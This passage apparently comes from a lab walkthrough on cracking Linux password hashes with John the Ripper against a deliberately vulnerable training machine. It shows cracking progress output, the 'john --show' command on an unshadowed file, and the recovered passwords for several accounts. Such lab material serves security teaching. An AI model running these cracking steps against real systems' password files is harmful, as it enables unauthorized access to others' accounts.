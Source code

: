 ```
123456789        (klog)
batman           (sys)
Proceeding with incremental:ASCII
6g 0:00:01:18  3/3 0.07692g/s 1070Kp/s 1070Kc/s 1070KC/s keaw1l..ketpmh
6g 0:00:01:33  3/3 0.06451g/s 1074Kp/s 1074Kc/s 1074KC/s tubongi..tutyp14
6g 0:00:03:10  3/3 0.03157g/s 1079Kp/s 1079Kc/s 1079KC/s nhrc89..nhhf0d
6g 0:00:03:30  3/3 0.02856g/s 1079Kp/s 1079Kc/s 1079KC/s stezmx..stovvf
Use the "--show" option to display all of the cracked passwords reliably
```
---

## Now Lets Show Cracked Passwords

Run:

```bash
john --show unshadowed.txt
```

**Results:**

```
└─$ john --show unshadowed.txt

sys:batman:3:3:sys:/dev:/bin/sh
klog:123456789:103:104::/home/klog:/bin/false
msfadmin:msfadmin:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:postgres:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:user:1001:1001:just a user,111,,:/home/user:/bin/bash
service:service:1002:1002:,,,:/home/service:/bin/bash
```

We cracked 6 passwords!

![Cracking passwords using John](images/Cracking_passwords_using_John.png)

---